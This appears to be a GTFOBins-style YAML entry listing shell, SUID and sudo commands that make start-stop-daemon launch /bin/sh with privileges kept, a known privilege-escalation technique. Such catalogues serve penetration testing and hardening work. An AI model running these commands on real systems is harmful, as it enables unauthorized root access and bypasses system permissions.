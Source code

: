 ```yaml
---
functions:
  shell:
    - code: start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
  suid:
    - code: |
        ./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
  sudo:
    - code: |
        sudo start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
---
```

